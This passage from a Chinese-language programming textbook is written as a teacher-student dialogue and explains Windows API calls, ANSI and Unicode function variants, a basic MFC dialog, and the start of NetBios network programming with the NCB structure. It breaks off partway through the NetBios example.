“我们在程序开发过程中，没有必要去死记硬背函数的调用语法和参数信息，只要能快速地从 MSDN 中找到所需的信息，然后用于开发就可以了。我们写个简单的例子，演示如何调用 API。和前面一样，建立一个 Win32 控制台项目，起名为 API，敲入主程序如下。这是用 Windows API 函数弹出对话框，打出字符串。”

```cpp
#include "stdafx.h"
#include <Windows.h>
int _tmain(int argc, _TCHAR* argv[])
{
    MessageBox(NULL, "ww0830", "OK", MB_OK);
    return 0;
}
```

“解释一下，`#include <Windows.h>`，包含 Windows.h 头文件，当要使用 Windows API 函数进行编程时，就一定要包含这个头文件。早期 Windows.h 是一个巨大的头文件，大约有 5000 行左右，之后 VC 将其切割为各个较小的头文件，但还是以 Windows.h 总括之。除非你非常清楚什么 API 函数需要什么头文件，否则为了方便，就直接用 Windows.h 概括吧。”

“当然，Windows.h 只照顾了一部分 API 函数，当要用到其它特别的函数时，就需要包含对应的头文件。怎么知道对应的头文件是什么？查 MSDN 啊！”

“在 Windows API 中，可以使用 `MessageBox()` 函数来打出字符串。该函数的说明如下。”

原型：

```cpp
int MessageBox(
    HWND hWnd,
    LPCTSTR lpText,
    LPCTSTR lpCaption,
    UINT uType
);
```

参数：

- hWnd，父窗口的句柄。为 NULL，说明消息框没有父窗口。
- lpText，欲显示的信息字符串。
- lpCaption，对话框标题字符串。
- uType，对话框类型。

“UINT？又是微软自己定义的某种类型吧。”小菜们指着最后一个参数的类型说道。

“是的，UINT 其实就是 unsigned int，即无符号整型。”老师说道，“我们执行 `MessageBox(NULL, "ww0830", "OK", MB_OK);`，就是显示一个内容为 ww0830，标题为 OK，并带有一个‘确定’按钮的对话框。运行该程序，效果如图 1-66。”



图 1-66

### 1.6.3 ANSI 和 Unicode

老师进一步强调：“几乎所有的 Windows API 函数，都有 ANSI 实现和 Unicode 实现两种形式，分别是函数名加 A 和 W。以 MessageBox 函数为例，在 winuser.h 头文件中，有预定义如下。”

```c
#ifdef UNICODE
#define MessageBox MessageBoxW
#else
#define MessageBox MessageBoxA
#endif // UNICODE
```

“这是预定义的表示法。`#ifdef UNICODE` 即在 UNICODE 环境下时，`#define MessageBox MessageBoxW`，MessageBox 函数等于是 MessageBoxW 函数。`#else`，否则，就是在 ANSI 的环境下时，`#define MessageBox MessageBoxA`，MessageBox 函数等于是 MessageBoxA 函数。也就是说，在 Windows 下，其实是没有 MessageBox 这个函数的实现的，只有 MessageBoxA 和 MessageBoxW 这两个函数的实现。当 MessageBox 的参数是 ANSI 码时，系统会自动使用 MessageBoxA 来执行，反之如果参数是 Unicode 码，系统则使用 MessageBoxW 来执行。”

> “哦！好神奇！”

“而 MessageBoxA 和 MessageBoxW 在系统中，其实也只具体实现了一个。在 Win98 时，实现的是 MessageBoxA 函数，MessageBoxW 函数只是将所带参数转变为 ANSI 后，调用 MessageBoxA 函数来完成功能。在进入 Win2000 后，为了国际化的使用，微软力挺 Unicode，所以在 Win2000 以上的系统中，都是具体实现 Unicode 函数。这里就是实现了 MessageBoxW，而 MessageBoxA 只是将参数转换为 Unicode 后，调用 MessageBoxW 函数。”

“具体说，MessageBoxA 函数的反汇编就是。”

```asm
loc_77E1811B:
push dword ptr [ebp+WLanguageId]
push [ebp+uType]
push [ebp+var_8]
push [ebp+lpMem]
push [ebp+hWnd]
call MessageBoxExW
```

“啊，啊，这个……这个……”小菜们往后一跳，手脚狂摆，说道：“我们连 C 语言都才学不久，没有理由会认识汇编吧。”

“呵呵，其实就是把参数转变成 Unicode 形式，直接调用 MessageBoxW 函数而已，和前面说的是一致的。”

“哦！一个小小的 API 函数，也有这么大学问啊！”小菜们点头说道。

### 1.6.4 C 和 API 的区别

老师说道：“大家可以看到，API 函数的使用方式和 C 语言差不多，因为 API 本身就是用 C 写的。我们在 Windows 系统下编程时，可以用标准 C 语言和 C++ 语言编程（这是当然的，其实这和编译器有关，与系统没有太大的关系，*NIX 下也都可以采用 C 或者是 C++），也可以使用微软提供的 API 函数接口编程。”

## 第二章 编程基础知识

（Windows API 只能在 Windows 下使用，*NIX 下是没有的），但在很多时候，我们实际采用的是 C 语言函数和 API 函数的混合使用。这种混合使用的原因，更多是因为大家没有分清 C 函数和 API 函数之间的区别。

老师进一步解释道：“标准 C 语言或 C++ 语言，其函数名称全是小写字母，比如前面讲解的 printf 函数等。不仅如此，C 语言的变量类型也全是小写字母。”

- int 整型
- bool 布尔型
- float 浮点型
- char 字符型

“而 Windows API 函数就不一样了，其函数名是以大写字母开头的大小写混用，如刚才的 MessageBox 等函数名，由多个单词构成，每个单词的开头为大写，而使用的基本变量类型采用的是全大写字母的 Windows 数据类型。比如刚才 MessageBox 函数的参数 HWND、LPCTSTR、UINT 等。”

“Windows 的数据类型其实都是对标准 C 语言数据类型的组合，常用的有：”

```c
typedef int            BOOL;
typedef unsigned char  BYTE;
typedef unsigned short WORD;
typedef int            INT;
typedef unsigned int   UINT;
typedef unsigned int   *PUINT;
```

小菜们问道：“为什么微软要重新命名一次啊，岂不多此一举？”

老师回答：“不。微软觉得 C 语言的全小写命名规则不科学，当函数名称过长时不利于人们的阅读。所以提供了一套改进的命名规范，就是 API 命名规范——函数名称采用大小写混写，而数据类型使用全大写，以显示和 C 语言命名方式的区别。但为了和原来一直使用的标准 C 代码兼容，所以并没有淘汰纯小写的命名规范，也就导致了这两种方式的存在。所以，当我们习惯地敲入 int、bool 等定义变量时，其实采用的是 C 语言编程方式；如果是纯 Windows API 的编程，应该采用 INT、BOOL 来定义——微软是老大嘛。”老师最后总结道：“而在 Windows 下安装了 VC 后，还有一种编程方式——MFC 编程。”







## 1.7 编写 MFC 程序

### 1.7.1 MFC 简介

MFC 的全称是 Microsoft Foundation Class，即微软基础类库，是微软为 Windows 程序员提供的一个面向对象的 Windows 编程接口（Windows API 函数接口不是面向对象的）。MFC 的出现大大简化了 Windows 平台编程的工作，MFC 库充分利用了 Microsoft 开发人员多年开发 Windows 程序的经验，并可以将这些经验融入到用户自己开发的应用程序中去。MFC 本身提供了一个标准化的结构，这样开发人员可以从一个比较高的起点编程，节省了大量时间，而且 MFC 提供了大量的代码，指导用户编程时实现某些技术和功能。

### 1.7.2 MFC 示例

“我们看一个用 MFC 编写的弹出对话框的例子吧。”老师说道，“在以后的课程中，我们会大量地使用 MFC 的。”

**第一步，新建对话框工程。**

“在 VC2003 的菜单上，选择 文件->新建->项目（或者 Ctrl+Alt+N），选择 Visual C++ 项目，MFC 类下的 MFC 应用程序，将项目的名称起名为 MFC，如图 1-67。接着选择‘基于对话框’，如图 1-68。选择好后直接点击‘完成’按钮，VC 就会自动为我们生成基本的对话框架，如图 1-69。”

“界面右边的工具箱，装有常见的界面控件，我们可以随意地把某个控件直接拖到对话框面板上去，设计出我们的界面来。要预览设计效果，可以直接点击工具栏上的‘测试对话框项’按钮，如图 1-70。这样就可以直接预览到我们设计的对话框的效果了，如图 1-71。”

“OMG，设计得这么难看！”小菜们抗议道。

“呵呵，这就是传说中的凌乱美！”

**第二步，添加“确定”按钮响应代码。**

“双击生成的对话框面板中的‘确定’按钮，VC 就会自动生成点击该按钮的响应，并且直接定位到此处，如图 1-72。”

“生成的响应函数是 void CMFCDlg::OnBnClickedOk()，我们加入如下代码。”

```c
CString strMsg = "ww0830";
AfxMessageBox(strMsg, MB_OK, NULL);
```

“闭着眼睛都知道，AfxMessageBox 是弹出一个显示 ww0830 字符串的对话框吧！哼哼！”小菜们说道。

“哈哈，知吾者，小菜也！大家要记得去掉 VC 自动生成的 OnOK 语句，不然的话，执行了这个，对话框就会消失。好了，添加好的代码如图 1-73 所示。”

**第三步，运行和测试。**

添加代码完成后，按 Ctrl+F5 执行，就会弹出我们设计好的 Windows 界面的对话框。点击‘确定’按钮，会弹出一个消息框，如图 1-74。

“MFC 的程序就如此简单地完成了。大家可以看到，用 MFC 编写程序易学易用，并立即支持所有 Windows 的标准特性。”

### 1.7.3 Windows 环境下的程序设计层次

老师小结道：“从这个例子可以看出，MFC 也有独特的命名规范。它的类以字母 C 开头，如刚才的 CString 类，而且全局 MFC 的函数名都是以 Afx 为前缀，比如 AfxMessageBox()。并且，MFC 要在机器上安装了 VC 之后才有。”

“讲了这么多，可以看出，在 Windows 环境下的程序设计层次如图 1-75 所示。”

“我们应用程序的编写，既可以基于 API 的接口，也可以基于 MFC 和 VCL 其它的一些类库。”老师指着图说道，“API 函数由 C 语言编写，而类库一般是由 C++ 编写。”

“API 函数分为用户态 API 和核心态 API，而 MFC 是对 API 函数的封装，可以面向对象地思想。另外，如果安装了 C++ Builder，可以采用 C++ Builder 提供的 VCL 来编程，VCL 也是对 API 封装，也是面向对象的类库。”

“哦，原来这样啊！”

“这些全是 Windows 惹的祸。”老师说道，“在 *NIX 中，就没有这个问题，编程踏踏实实地使用标准的 C/C++ 语言就可以了。”

“这么方便？那支持 *NIX，开源无敌！”

“呵呵，不过绝对占据个人 PC 市场的，还是 Windows 系统。好了，下节课我们会进入网络编程的世界！今天讲了这么久，大家都饿了吧，收工，下课，吃饭！”













# 第二章 网络编程基础

“这门课既然是关于网络编程的，那么大家都想编写什么样的网络程序呢？”老师进入课堂后，问道。

“像 X-scan 一样的程序！”小菜 A 说道，“一扫就知道有什么样的漏洞。”

“像 AD 一样的程序，一扫就知道有什么注入。”小菜 B 说道。

“还有编写那些漏洞利用工具，一运行就可以进入别人的电脑。”小菜 C 一边说一边口水都流出来了。

“还有一些专杀工具，现在的病毒太多了，杀毒软件根本跟不上……像熊猫烧香……太烦人了。”

“好，好，好，大家的愿望是美好的，前途是曲折的。我们在这门课中一步步地来学习吧。”老师说道，“为了写出良好的程序，我们一定要打好基础。在上堂课中我们已经介绍了语言和开发工具的基础知识，接下来我们就进入网络编程的基础吧！”

## 2.1 计算机网络通信编程方法

“网络通信，网络通信，就是网络的通信。”

扑通……台下的小菜倒下了一大片。

“而计算机网络通信，就是计算机网络的通信。”

扑通……倒了的小菜又倒了一次，本来没倒的也倒了，好不容易才站起来。

“不是啊，现实中的网络是非常多的，比如电话网络、移动通信网络、卫星通信网络等，它们和计算机网络都是不同的。”

小菜们拍拍身上的灰尘，点点头。

“本书中我们只关心计算机网络的通信，而我们所说的网络编程，就是通过编写程序，让计算机网络两端的电脑能够通信起来。”

“比如大家所说的漏洞扫描，就是编写一个网络程序，能够识别网络远端的电脑有没有漏洞；而漏洞利用就是编写一个网络程序，能够利用网络远端电脑上的漏洞。这所有的一切都是基于计算机网络的通信编程。而说到计算机网络的通信编程，我们有好几种实现方法，大家一起来看看。”

### 2.1.1 基于 NetBios 编程

第一种方法是基于 NetBios 的网络编程。NetBios 是 PC 机网络中使用较为广泛的网络协议之一，大多数的局域网（LAN）产品都支持 NetBios，而 Windows 操作系统在局域网内部的网络协议更是以 NetBios 为主，所以 NetBios 有很多应用场合。NetBios 的全称是 Network Basic Input Output System，即网络基本输入输出系统，由 IBM 最先提出，目前已成为网络应用程序的事实标准。NetBios 控制块（NCB）是所有 NetBios 应用程序都要用来访问 NetBios 服务的一个程序设计结构，并且是唯一的一个。NetBios 控制块的 C 结构如下：

```c
typedef struct tagNCB
{
    BYTE ncb_command;
    BYTE ncb_retcode;
    BYTE ncb_lsn;
    BYTE ncb_num;
    DWORD ncb_buffer;
    WORD ncb_length;
    BYTE ncb_callname[16];
    BYTE ncb_name[16];
    BYTE ncb_rto;
    BYTE ncb_sto;
    BYTE ncb_post;
    BYTE ncb_lana_num;
    BYTE ncb_cmd_cplt;
    BYTE ncb_reserve[14];
} NCB, *PNCB;
```

ncb_command 字段，每一个发往 NetBios 的 NCB 都代表一项要执行的动作，具体执行哪项动作，由 ncb_command 字段的取值决定。NetBios 命令的使用方式有两种，即同步和异步。同步命令将阻止提交处理的执行，直到该命令执行完毕；而异步命令由 NetBios 在内部排队，并不阻止执行。ncb_command 的取值和含义如下：

| 命令 | 含义 | 同步代码 | 异步代码 |
|---|---|---|---|
| NCBRESET | 复位 | 32h | 不允许 |
| NCBASTAT | 适配器状态 | 33h | B3h |
| NCBCANCEL | 取消 | 35h | 不允许 |
| NCBUNLINK | 取消消息 | 70h | 不允许 |
| NCBADDNAME | 加入名字 | 30h | B0h |
| NCBDELNAME | 删除名称 | 31h | B1h |
| NCBADDGRNAME | 加入组名 | 36h | B6h |
| NCBFINDNAME | 寻找名称 | 78h | 83h |
| NCBCALL | 呼叫 | 10h | 90h |
| NCBLISTEN | 侦听 | 11h | 91h |
| NCBHANGUP | 挂断 | 12h | 92h |
| NCBSEND | 发送 | 14h | 94h |
| NCBRECV | 接收 | 15h | 95h |
| NCBRECVANY | 全部接收 | 16h | 96h |
| NCBCHAINSEND | 链发送 | 17h | 97h |
| NCBCHAINSENDNA | 链发送（先回显） | 72h | F2h |
| NCBSSTAT | 状态 | 34h | B4h |
| NCBDGSEND | 发送数据 | 20h | A0h |
| NCBDGRECV | 接收数据 | 21h | A1h |
| NCBDGSENDBC | 发送广播 | 22h | A2h |
| NCBDGRECVBC | 接收广播 | 23h | A3h |

老师说道：“使用 NetBios 编程是一件很简单的事情，我们只要定义一个 NCB 结构，先把结构清空，然后填充要执行的命令和少数几个字段，最后把它作为参数，调用 NetBios() 函数就可以执行了。”

“但空洞的说明毕竟不好理解，我们来看个实际的例子吧，通过 NetBios 获得本机的 MAC 地址。先定义 NCB 结构的变量 ncb，并将其清空。”

```c
NCB ncb;
// 清空 NCB
memset(&ncb, 0, sizeof(ncb));
```

“然后设置 ncb 的命令 ncb_command 成员为 NCBRESET，表示复位，再设置 NCB 的 ncb_lana_num 成员为 0。”

```c
ncb.ncb_command = NCBRESET;
ncb.ncb_lana_num = 0;
```

